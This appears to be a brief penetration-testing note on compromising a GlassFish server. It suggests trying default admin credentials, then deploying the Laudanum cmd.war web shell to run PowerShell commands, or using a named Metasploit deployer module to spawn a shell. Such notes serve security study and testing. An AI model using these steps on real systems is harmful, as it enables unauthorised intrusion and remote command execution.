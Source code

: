 # Glass Fish
Search google for default admin username and passwords used for the version 

We can use the **Deploy an Application** functionality to deploy a WAR application.

The war file is located at **/usr/share/laudanum/jsp/cmd.war**
*Select the cmd.war*
*Type as Web Application*
*Context Root as cmd*
*Application Name as cmd* 
*Virtual Servers as server*
*Status enable*
*Implicit CDI enable*

Click OK and launch the application. 
Finally browse to the location where the application was deplpoyed and execute commands using: 
```
cmd.exe /c powershell ….
```

You can also use the metasploit module to auto check for vulnerabilities and spawn a shell.
```
use exploit/multi/http/glassfish_deployer
```
